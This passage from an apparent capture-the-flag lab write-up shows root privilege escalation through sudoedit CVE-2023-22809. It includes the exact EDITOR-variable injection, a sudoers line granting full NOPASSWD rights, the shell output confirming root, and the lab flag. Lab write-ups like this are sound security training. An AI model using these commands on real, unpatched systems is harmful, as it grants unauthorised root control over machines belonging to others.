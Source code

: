 And check for vulnerabilities.

Looking for vulnerabilities in the `sudoedit` version `1.9.12p1`, we find the `CVE-2023-22809` vulnerability. You can find detailed information about it in [this security advisory from Synacktiv](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf).

Essentially, `sudoedit` allows users to choose their editor using environment variables such as `SUDO_EDITOR`, `VISUAL`, or `EDITOR`. Since the values of these variables can be not only the editor itself but also the arguments to pass to the chosen editor, `sudo` uses `--` while parsing them to separate the editor and its arguments from the files to open for editing.

This means that by using the `--` argument in the editor environment variables, we can force it to open files other than those allowed in the `sudoedit` command we can run. Consequently, since we can execute `sudoedit` as `root` with `sudo`, we can edit any file we want as `root`.

To use this vulnerability for privilege escalation, there are many files we could write to. In this case, we can simply choose to write to the `/etc/sudoers` file to grant ourselves full `sudo` privileges.

We can exploit the vulnerability as follows:

```
web@cyprusbank:~/app$ export EDITOR="nano -- /etc/sudoers" 
web@cyprusbank:~/app$ sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

As we can see, we were able to open the `/etc/sudoers` file with `nano`.

Now, by making the addition of `web ALL=(ALL) NOPASSWD: ALL` to the file, we can grant our current user full `sudo` privileges :

![[Pasted image 20250720142333.png]]

After saving the file and closing both files, we can see the changes made to our `sudo` privileges :

```
web@cyprusbank:~/app$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
    (ALL) NOPASSWD: ALL
```

Finally, by simply running `sudo su -`, we can get a shell as the `root` user and read the root flag at `/root/root.txt` :

```
web@cyprusbank:~/app$ sudo su -
root@cyprusbank:~# ls
clean.sh  root.txt
root@cyprusbank:~# cat root.txt
THM{4nd_uR_p4ck4g3s}
```

Pwned !! 